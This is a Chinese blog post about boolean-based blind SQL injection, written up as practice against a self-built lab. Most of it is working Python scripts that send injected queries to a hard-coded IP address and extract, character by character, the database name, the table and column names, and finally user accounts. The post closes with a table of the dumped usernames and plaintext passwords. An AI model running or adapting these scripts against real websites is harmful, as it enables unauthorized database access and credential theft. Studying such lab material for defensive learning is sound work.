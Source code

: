```yaml
---
title: sql布尔盲注
date: 2022-07-07 15:32:23
permalink: /pages/bb98e5/
categories:
  - 网络安全
  - web安全
  - 自建靶场学习
tags:
  - 
author: 
  name: jimmy
  link: https://github.com/Riam-jimmy
---
```

#  sql布尔盲注

## 用的是自己以前的老脚本，效率不高但能显示出结果

### 基本思路

> 先找到查出数据库长度，然后通过数据库长度爆破出数据名
>
> python代码如下：

```python
import requests
url="http://120.27.61.239:8007/source/index2.php?id="
a="You are in..........."
def DBlength(url,str):
    for i in range(1,40):
        attack_url=url+"1'and length(database())={0}--+" .format(i)
        ret=requests.get(attack_url)
        if str in ret.text:
            print("数据库长度为：{0}" .format(i))
            return i
        else:
            continue
def DBname(url,str,num):
    name=()
    for j in range(1,num+1):
            for i in range(65,122):
                attack_url=url+"1'and ascii(substr(database(),{1},1))={0}--+".format(i,j)
                ret=requests.get(attack_url)
                if str in ret.text:
                    name+=(chr(i),)
    return name
if __name__ == '__main__':
	num=DBlength(url,a)
	dbname=DBname(url,a,num)
	databasename=''.join(dbname)
	print("数据库名"+str(databasename)+"数据库长度"+str(num))
```

> 效果图如下：

![image-20220705154625344](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220705154625344.png)

> 获得数据库名后通过此数据库名获取此数据库名的表名，表的长度，有多少个表等

```python
具体核心代码如下：
def tables(url,str):
    for i in range(1,10):
        attack_url=url+"1'and((select count(table_name) from information_schema.tables where table_schema=database())={0})--+".format(i)
        ret=requests.get(attack_url)
        if str in ret.text:
            print("有{0}个表".format(i))
            return i
def tbinformation(url,str,num):
    tb_array=[]
    tbname=[]#先算它每张表的长度
    for i in range(0,num):
        for j in range(1,64):
            attack_url=url+"1'and (select length((select table_name from information_schema.tables where table_schema=database() limit {0},1)))={1}--+".format(i,j)
            ret=requests.get(attack_url)
            if str in ret.text:
                print("第{0}个表长度为{1}".format(i+1,j))
                tb_array.append(j)
                break
    for i in range(0,num):#然后再爆破出它的表名
        a=[]
        for j in range(0,tb_array[i]):
            for l in range(97,122):
                attack_url=url+"1'and (select ascii(substr((select table_name from information_schema.tables where table_schema=database() limit {0},1),{1})))={2}--+".format(i,j+1,l)
                ret=requests.get(attack_url)
                if str in ret.text:
                    a.append((chr(l)))
                    break
        name=''.join(a)
        tbname.append(name)
    return tbname
```

> 实现效果图如下：

![image-20220705160936085](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220705160936085.png)

> 获得数据表名，开始通过获取的表名拿到对应每张表的列名
>
> 因为此处表非常多，所以这里就选择最重要的userpwd和user表来爆破
>
> 核心代码如下：

```python
def column(url,str,tbname):
    flag=0
    colum=[]
    column_name=[]
    for i in range(1,20):
        attack_url=url+"1'and(select count(column_name)from information_schema.columns where table_name='{0}')={1}--+".format(tbname,i)
        ret=requests.get(attack_url)
        if str in ret.text:
            flag=i
            break
    for i in range(0,flag):
        for j in range(1,20):
            attack_url=url+"1' and (select length(substr((select column_name from information_schema.columns where table_name='{2}' limit {0},1),1)))={1}--+".format(i,j,tbname)
            ret=requests.get(attack_url)
            if str in ret.text:
                colum.append(j)
                break      
    for i in range(0,flag):
        test=[]
        for l in range(0,colum[i]):
            for j in range(97,122):
                attack_url=url+"1' and (ascii(substr((select column_name from information_schema.columns where table_name='{3}' limit {0},1),{1})))={2}--+".format(i,l+1,j,tbname)
                ret=requests.get(attack_url)
                if str in ret.text:
                    test.append(chr(j))
                    # print(test)
                    break
        a="".join(test)
        # print(a)
        column_name.append(a)
    return column_name
```

> 先跑的是userpwd表，但是跑完后里面并没有任何信息

![image-20220705162600945](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220705162600945.png)

> 手工查一下看是不是此表内是不是根本没有列

```mysql
mysql语句如下：
select count(column_name) from information_schema.columns where table_name='userpwd'
```

> 结果跟我猜想的一样，并无数据

![image-20220705163215920](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220705163215920.png)

> 那么接下来就查询users表里的列名
>
> 核心代码跟上面一样只是换了一个表名
>
> 效果图如下：

![image-20220705163408117](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220705163408117.png)

> 知道了表名那么久很简答了，只要把里面的数据爆破出来就好了，因为一般登录只需要username和password就行了，id只是一个排序的，所以优先爆破username和password
>
> 核心代码如下：

```python
def contents(name):
    sj=[]
    count=0
    for i in range(30):
        attck_url=url+"1'and (select count({0}) from users)={1}--+".format(name,i)
        ret=requests.get(attck_url)
        if a in ret.text:
            count=i
            print(count)
            break
    for i in range(0,count):
        test=[]
        flag=0
        for j in range(1,20):
            attck_url=url+"1' and (select length((select {2} from users limit {0},1)))={1}--+".format(i,j,name)
            ret=requests.get(attck_url)
            if a in ret.text:
                flag=j
                print('第{0}个数据长度为{1}'.format(i+1,j))
                break
        for j in range(flag):
            for k in range(33,127):
                attck_url=url+"1'and (select ascii(substr((select {3} from users limit {0},1),{1},1)))={2}--+".format(i,j+1,k,name)
                ret=requests.get(attck_url)
                if a in ret.text:
                    test.append(chr(k))
                    break
        b="".join(test)
        sj.append(b)
        print(sj)
```

> 效果图如下：

> 账号：

![image-20220705172515233](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220705172515233.png)

> 密码:

![image-20220705172603464](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220705172603464.png)

> 总结一下，user表内所有内容如下：

| id   | username | password   |
| ---- | -------- | ---------- |
| 1    | hetian   | hetian1    |
| 2    | Hetian   | I-kill-you |
| 3    | Heetian  | p@ssword   |
| 4    | hetian   | hetian     |
| 5    | heetian  | stupidity  |
| 6    | superman | genious    |
| 7    | batman   | mob!le     |
| 8    | admin    | admin      |
| 9    | admin1   | admin1     |
| 10   | admin2   | admin2     |
| 11   | admin3   | admin3     |
| 12   | dhakkan  | dumbo      |
| 13   | admin4   | admin4     |

